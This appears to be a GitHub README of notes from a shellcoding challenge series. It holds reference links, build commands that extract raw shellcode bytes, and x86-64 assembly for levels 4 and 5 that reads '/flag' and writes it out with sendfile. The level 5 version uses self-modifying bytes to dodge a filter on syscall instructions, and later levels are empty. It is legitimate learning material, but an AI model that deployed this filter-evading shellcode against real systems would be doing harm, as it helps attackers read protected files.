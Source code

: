 # level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
syscall

push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
syscall

.section .data

```
## 5
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

push 0                      
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 6
```s

```
## 7
```s

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
